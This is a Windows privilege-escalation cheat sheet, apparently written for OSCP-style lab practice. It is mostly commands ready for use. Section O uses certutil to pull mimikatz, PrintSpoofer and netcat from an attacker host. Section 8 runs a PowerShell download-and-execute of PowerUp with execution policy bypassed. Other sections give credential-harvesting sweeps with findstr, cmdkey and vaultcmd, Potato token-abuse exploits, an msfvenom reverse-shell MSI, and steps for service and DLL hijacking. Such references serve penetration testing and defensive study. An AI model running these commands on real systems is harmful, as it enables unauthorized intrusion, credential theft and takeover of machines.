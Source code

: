 # Windows Privilege Escalation Playbook

Quick-reference checklist for hunting Windows privilege escalation paths, covering manual checks, automated tooling, and common exploits. Replace placeholders (`<target>`, `<user>`, `<password>`) as needed.

---

## Quick Triage Checklist
- Identify current user context and host: `whoami`, `hostname`
- Inspect group memberships for elevated rights: `whoami /groups`
- Enumerate local users and privileged groups: `net user`, `net localgroup administrators`
- Capture OS build, architecture, and patch level: `systeminfo`, `wmic os get osarchitecture`, `wmic qfe`
- Review network footprint: `ipconfig /all`, `route print`
- List installed applications and running processes: `wmic product get name,version`, `tasklist /v`
- **Command bundle for a fast snapshot:**
  ```powershell
  whoami; hostname; whoami /groups;
  net user; net localgroup administrators;
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version";
  wmic os get osarchitecture; wmic qfe get HotFixID,InstalledOn;
  ipconfig /all; route print; tasklist /v
  ```

---

## O. Transfer File
```bash
certutil -urlcache -split -f http://10.10.14.160:8080/winPEAsx64.exe
certutil -urlcache -split -f http://10.10.14.160:8080/mimikatz.exe
certutil -urlcache -split -f http://10.10.14.160:8080/PrintSpoofer.exe
certutil -urlcache -split -f http://10.10.14.160:8080/nc.exe

```

## 1. System Recon
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` – OS baseline for kernel/patch checks.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` – Enumerate installed updates.
- `whoami /all` – Current user, groups, and privileges (look for SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege, etc.).
- `hostname` / `echo %COMPUTERNAME%` – Confirm host identity.
- `set` – Dump environment variables for credentials or unusual paths.
- `driverquery /v` – List drivers to identify vulnerable third-party components.
- `wevtutil qe System /c:10 /rd:true /f:text` – Recent system events (service crashes, policy changes).
- **Situational awareness command sweep:**
  ```powershell
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
  wmic qfe get Caption,Description,HotFixID,InstalledOn
  whoami /all
  driverquery /v
  wevtutil qe System /c:10 /rd:true /f:text
  ```

## 2. Account & Credential Recon
- `net user <username>` / `net user` – Local user enumeration.
- `net localgroup administrators` – Check local admin membership.
- `cmdkey /list` – Stored credentials.
- `vaultcmd /listcreds /all` – Credential Manager entries.
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"` – Auto-logon creds.
- `findstr /spin "password" C:\Users\*` – Harvest clear-text secrets from user profiles.
- `findstr /spin /c:"pass" C:\*` – Broad search for files containing the literal string "pass".
- **Hidden-in-plain-view sweep (passwords, tokens, secrets):**
  ```powershell
  findstr /spin "password" C:\Users\*
  findstr /spin "token\|secret" C:\Users\*
  findstr /spin /c:"pass" C:\*
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
  cmdkey /list
  vaultcmd /listcreds /all
  ```

## 3. Service & Driver Abuse
- `sc query state= all` – Enumerate services and states.
- `sc qc <service>` – Inspect service configuration (binary path, run-as account).
- `wmic service get name,displayname,startmode,startname` – Identify auto-start services running as SYSTEM.
- Check for unquoted service paths; note writable directories in the path.
- `accesschk.exe -uwcqv "Authenticated Users" * /accepteula` – Detect writable service binaries.
- Driver vulnerabilities: cross-reference `driverquery` output with exploit DB (e.g., CVE-2018-0952).

## 4. Scheduled Tasks & Startup
- `schtasks /query /fo LIST /v` – Look for high-priv tasks with modifiable actions.
- `dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` – Startup folder abuse.
- Inspect `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` for writable autoruns.

## 5. Registry & Permission Weaknesses
- `reg query HKLM\SOFTWARE\Policies /s` – Misconfigured policies.
- `icacls "C:\Program Files"` – Find writable directories under Program Files.
- `Get-Acl` via PowerShell on critical paths (`C:\Windows\System32`, service binaries) to spot misperms.
- `reg query HKLM\SYSTEM\CurrentControlSet\Services /s | findstr /i "ImagePath"` – Review service ImagePaths for suspicious locations.
- **Interpreting key `icacls` flags:**  
  `F` (Full Control), `M` (Modify), `(W)` (Write), `(OI)` (Object Inherit), `(CI)` (Container Inherit). If low-privileged principals such as `BUILTIN\Users`, `Authenticated Users`, or `Everyone` hold `F`, `M`, or `(W)` on service binaries or directories, the path is likely exploitable.

## 6. Token & Privilege Abuse
- `whoami /priv` – Confirm user privileges.
- If SeImpersonatePrivilege present: deploy `PrintSpoofer`, `GodPotato`, or JuicyPotato.
- With SeAssignPrimaryTokenPrivilege: use `PsExec` or `incognito` to assign new tokens.
- With SeBackupPrivilege: use `diskshadow` + `ntdsutil` for AD database/download.

## 7. UAC & Logon Tricks
- `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` – Determine UAC level.
- Test non-elevated processes for auto-elevate (fodhelper, sdclt, eventvwr) if UAC is misconfigured.
- `query user` – Identify interactive admins for impersonation opportunities.

## 8. Using PowerUp.ps1
- Import PowerUp: `powershell -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"`
- Key functions:
  - `Invoke-AllChecks` – Comprehensive audit of services, reg keys, creds.
  - `Get-ServiceUnquoted` / `Get-ModifiableServiceFile` – Service path exploits.
  - `Get-ModifiableScheduledTaskFile` – Writable scheduled tasks.
  - `Get-RegistryAlwaysInstallElevated` – MSI elevated install misconfigs.
  - `Invoke-ServiceAbuse -Name <service>` – Automatically reconfigure vulnerable services.

## 9. Automated Scanners & Scripts
- `winPEAS.exe /quiet` – Broad privilege escalation discovery.
- `Seatbelt.exe -group=all` – Quick situational awareness.
- `SharpUp.exe` – C# alternative for Windows priv-esc checks.
- `Jaws-enum.ps1` – PowerShell info-gathering script.
- `wesng <systeminfo_output.txt>` – Windows Exploit Suggester Next-Gen.

## 10. Common Priv-Esc Exploits
- **Potato Family (SeImpersonate/AssignPrimary tokens)**
  - PrintSpoofer64: `PrintSpoofer64.exe -i -c cmd.exe`
  - GodPotato: `GodPotato.exe -cmd "cmd.exe"`
  - JuicyPotatoNG: `JuicyPotatoNG.exe -l 1337 -c "{CLSID}" -p "C:\Windows\System32\cmd.exe"`
- **Service Binary Replacement**
  - Stop vulnerable service → replace executable with payload → start service.
- **Unquoted Service Path**
  - Place payload in path (e.g., `C:\Program Files\Vuln Service\program.exe`) and restart service.
- **AlwaysInstallElevated**
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
  - `msfvenom -p windows/x64/shell_reverse_tcp -f msi` and run MSI to escalate.
- **DLL Hijacking**
  - Monitor loading DLLs via `Process Monitor` or `ListDLLs` → drop malicious DLL in writable directory.
- **Kernel Exploits**
  - Cross-reference build with exploit suggester (e.g., `PowerUp`, `wesng`) and deploy CVE-specific exploit like `CVE-2019-1388`.

## 11. Persistence & Verification
- After escalation, confirm with `whoami /groups` and `net session`.
- Locate OSCP flag files to document proof: `dir /s C:\*local.txt`, `dir /s C:\*proof.txt`
- Document exploited vector, commands, and files modified.
- Remove tooling and restore service order if required by engagement scope.

---

### Useful Download Links
- PowerUp.ps1: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
- winPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- PrintSpoofer: https://github.com/dievus/printspoofer
- GodPotato: https://github.com/BeichenDream/GodPotato
- JuicyPotatoNG: https://github.com/ohpe/juicy-potato
- Windows Exploit Suggester NG: https://github.com/bitsadmin/wesng
- Seatbelt: https://github.com/GhostPack/Seatbelt
- Kerbrute https://github.com/ropnop/kerbrute
